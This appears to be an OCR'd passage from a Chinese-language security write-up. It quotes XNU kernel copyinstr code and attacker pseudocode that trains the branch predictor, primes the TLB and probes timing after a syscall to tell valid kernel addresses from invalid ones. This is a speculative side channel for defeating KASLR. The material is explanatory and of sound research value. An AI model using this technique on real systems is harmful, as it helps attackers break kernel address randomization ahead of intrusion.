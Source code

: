 ```c
int copyinstr(const user_addr_t user_addr, char *kernel_addr, vm_size_t nbytes, vm_size_t *lencopied)
{
    int result;
    ...
    result = copy_validate(user_addr, (uintptr_t)kernel_addr, nbytes, COPYIO_IN);
    if (__improbable(result)) {
        // When user_addr is invalid
        return result;
    }

    // When user_addr is valid
    user_access_enable();
    result = _bcopyinstr((const char *)user_addr, kernel_addr, nbytes, &bytes_copied);
    user_access_disable();
    ...
}
```

对于每个Syscall, 攻击者执行

```c
int validity_test(char * kernel_addr, int sys_num)
{
    // Step1. training with an arbitrary userspace address
    for(int i = 0; i < TRAIN_DEPTH; i++)
        syscall(sys_num, user_addr);

    // Step2. priming the TLB with an eviction set
    prime();

    // Step3. invoking a system call with 𝑣
    syscall(sys_num, kernel_addr);

    // Step4. probing the TLB state
    if( probe(kernel_addr) < THRESHOLD )
        return false; // v is an invalid address.
    else
        return true;  // v is a valid address.
}
```

先训练分支预测器, 然后执行Prime & Probe, 如果驱逐集被驱逐, 说明推测执行触发了内核态的Table Walk,
导致正确的内核地址填充了TLB。

